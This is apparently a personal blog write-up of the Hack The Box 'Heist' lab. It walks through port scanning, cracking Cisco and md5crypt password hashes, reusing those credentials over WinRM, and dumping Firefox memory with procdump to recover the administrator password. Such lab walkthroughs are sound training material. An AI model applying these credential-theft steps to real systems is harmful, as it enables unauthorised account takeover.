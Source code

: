 ```yaml
---
title: Hack The Box - Heist Write Up
published: true
---
```

Hey Guys This is my write up about heist from hack the box 
This is an easy windows machine.
# [](#header-3)Machie ip:10.10.10.149
I added it to /etc/hosts
so let's get jump in 
![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/heist.jpg)

# [](#header-2)Port Scan 
```
root@ch4n:~# nmap -sC -sV 10.10.10.149

Starting Nmap 7.60 ( https://nmap.org ) at 2019-11-02 15:18 EDT
Nmap scan report for 10.10.10.149
Host is up (0.43s latency).
Not shown: 997 filtered ports
PORT    STATE SERVICE       VERSION
80/tcp  open  http          Microsoft IIS httpd 10.0
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
| http-title: Support Login Page
|_Requested resource was login.php
135/tcp open  msrpc         Microsoft Windows RPC
445/tcp open  microsoft-ds?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2019-11-02 04:50:41
|_  start_date: 1600-12-31 19:03:58

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 104.89 seconds
```
# [](#header-2)Web Page 
![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/web%20page.png)

After logging in as guest I found this page
![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/loggedin.png)

In this page The user Hazard posting the issue about cisco router and he attached the issue with configuration file

![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/config.png)

In config.txt it contains some pass and username

I used online tools to crack them

![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/cracked(1).png)
![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/cracked(2).png)

```
0242114B0E143F015F5D1E161713 - $uperP@ssword
02375012182C1A1D751618034F36415408 - Q4)sJu\Y8qz*A3?d
```
this one can't crack by online tools so I used john
```
$1$pdQG$o8nrSzsGXeaduXrjlvKc91
```

```
root@ch4n:~/Desktop/htb/boxes/heist# john --wordlist=/root/Desktop/rockyou.txt hash.txt
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 128/128 AVX 4x3])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
stealth1agent    (?)
1g 0:00:01:15 DONE (2019-12-26 15:08) 0.01316g/s 46153p/s 46153c/s 46153C/s stealthy001..steak7893
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
we got the pass 
```
stealth1agent
```

so we got users as 
```
admin
Hazard
administrator 
```

so Let's enumerate user through hazard 

![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/lookupsid.jpg)

here we got a bunch of usernames

So There are the users
```
Hazard
admin
administrator
support 
Chase 
Jason
Guest
```
Here are the pass

```
$uperP@ssword
Q4)sJu\Y8qz*A3?d 
stealth1agent
```
then I could login as Chase 
```
Chase - Q4)sJu\Y8qz*A3?d
```
![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/chase.jpg)
then grab the user.txt

# [](#header-2)Privillege Escalation
I found this 
```
if( $_REQUEST['login_username'] === 'admin@support.htb' && hash( 'sha256', $_REQUEST['login_password']) === '91c077fb5bcdd1eacf7268c945bc1d1ce2faf9634cba615337adbf0af4db9040') 
```
in 
```
C:\inetpub\wwwroot\login.php 
```

I crack the pass with online tools 

![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/cracked(3).png)

[https://md5hashing.net/hash/sha256/91c077fb5bcdd1eacf7268c945bc1d1ce2faf9634cba615337adbf0af4db9040
4dD!5}x/re8]FBuZ](https://md5hashing.net/hash/sha256/91c077fb5bcdd1eacf7268c945bc1d1ce2faf9634cba615337adbf0af4db9040
4dD!5}x/re8]FBuZ)

got the password 

```
4dD!5}x/re8]FBuZ
``` 
and login with evil-winrm

![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/root.jpg)

and got the shell as system user and grab the root flag

There is another way to get root so I wanna explain about it 

let's go on

I check the services with ps cmd 

![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/ps.png)

then I saw that firefox is running 

so I used procdump to dump all the data from firefox

You can download from there:[https://docs.microsoft.com/en-us/sysinternals/downloads/procdump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump)

![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/procdump.png)

I just download the dmp file from attack  machine to my machine then grep the pass with strings 

![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/strings.png)
 
then got the root pass 
![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/root_pass.jpg)
```
4dD!5}x/re8]FBuZ
```
So This is another way to get the root pass.

That’s it , Feedback is appreciated !

Contact me on 
[Facebook](https://www.facebook.com/SeeKwalCH4N)
[Twitter](https://twitter.com/ChanNyeinWai6)
[Instagram](https://www.instagram.com/chan_nyeinwai/)

Thanks for reading.

<img src="https://www.hackthebox.eu/badge/image/81292" alt="Hack The Box"> 

